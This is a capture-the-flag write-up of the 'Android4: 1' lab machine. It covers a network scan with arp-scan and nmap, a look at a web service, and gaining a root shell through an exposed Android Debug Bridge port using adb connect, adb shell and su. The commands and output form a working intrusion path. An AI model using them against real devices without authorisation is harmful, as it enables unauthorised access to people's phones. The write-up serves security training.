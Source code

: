 # 📳📳 Android4: 1 Writeup 📳📳

## Getting the Ip Address of Target Device:

![device screen](screenshots/screen.png)

I will be using arp-scan to scan my local network and get the ip address of the target device

> target ip -> 192.168.100.11

## Scanning the Target 

Using nmap to scan the device for open ports

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ nmap -sV 192.168.100.11 -oN nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 05:40 EDT
Nmap scan report for 192.168.100.11
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
MAC Address: 08:00:27:ED:55:9B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.30 seconds

```

## Exploitation

Let's go with port 8080, it is a http service, lets open it up in browser and see if we got some clues

![http service](screenshots/browser.png)

Here I dont get any clues or flag in the http services I even used Gobuster to find the hidden dirs but nothing interesting...

Now as another port is open that is 5555, it has service `freeciv` service, so I searched for it and got that we can use it to connect device to out kali machine using [adb](https://developer.android.com/tools/adb)

Let's use adb to connect to target device

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb connect 192.168.100.11:5555
connected to 192.168.100.11:5555
                                                                                                               
┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb devices                    
List of devices attached
192.168.100.11:5555     device


```

So the device is connected to our attacking machine, lets use shell to enumerate and find the flag

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Android_1]
└─$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ # 


```


Here I got the root shell now lets get the flag

![flag](screenshots/flag.png)

### I got the flag 🚩🚩

